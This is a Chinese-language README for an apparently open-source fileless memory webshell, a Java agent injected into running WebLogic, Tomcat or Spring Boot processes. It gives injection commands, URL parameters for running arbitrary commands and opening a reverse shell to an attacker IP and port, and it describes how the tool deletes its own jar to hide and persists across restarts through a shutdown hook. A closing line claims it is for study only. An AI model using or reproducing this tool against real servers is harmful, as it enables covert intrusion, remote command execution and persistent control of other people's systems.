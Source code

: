 # 说明
一个基于`javaagent`+`ASM`的无文件落地的javaagent，兼容多种容器(weblogic,Tomcat,Springboot).

# inject jdk要求
* Java 8

# agent jdk要求
* Java 6-11

# 兼容版本
* weblogic 10.3.6
* weblogic 12.2.1.2
* weblogic 12.2.1.3
* weblogic 12.1.3.0
* Tomcat 8.5.61
* Spring boot

# 测试平台
* macos 10.0+
* centos 7.1
* windows 10
* windows 11

# 使用说明
## inject 参数
```shell
java -jar inject.jar [your_password]  # 通用运行
java -jar inject.jar -p               # 打印所有运行的java进程名
java -jar inject.jar [your_password] [process_name] # 定向注入到[process_name]
```
## 请求参数

```text
任意url?psw =[your_password]&cmd=[your_cmd]  执行任意命令
任意url?psw =[your_password]&ip=[attack_ip]&port=[attack_port] 反弹shell
```

# 测试案例
运行`java -jar inject-1.0.jar x1001`
![java](./img/java.png)
在服务器端可以看到以下，说明注入成功，并删除当前jar包，达到无shell状态：
![server](./img/server.png)
访问任意url，带上参数`psw=your_password&cmd=your_cmd`
![request](./img/request.png)
当应用关闭时。攻击jar包自动生成到java虚拟机目录下。
![persist](./img/persist.png)
下次启动，自动注入达到持久化的效果。
![persist2](./img/persist2.png)

> 经测试，通过`kill -9`或者`强制结束进程`杀死容器进程，并不会触发`addShutdownHook`,也就不会持久化。
>网上查询以下几种杀死进程的情况:
>* 所有的线程已经执行完毕（√）
>* 调用System.exit()（√）
>* 用户输入Ctrl+C（√）
>* 遇到问题异常退出（√）
>* kill -9 杀掉进程（×）

# 更新
## 2021/06/19
* 修改hook点为`javax/servlet/FilterChain`，使其同时兼容tomcat.
* weblogic注入内存马，现在访问任意url，带上密码和命令即可

## 2021/12/02
* 简化hook流程
* 去除大部分打印
* inject.jar增加自定义hook的进程
* 增加反弹shell

# 参考
https://github.com/rebeyond/memShell

# 声明
本项目仅供学习使用，勿做它用







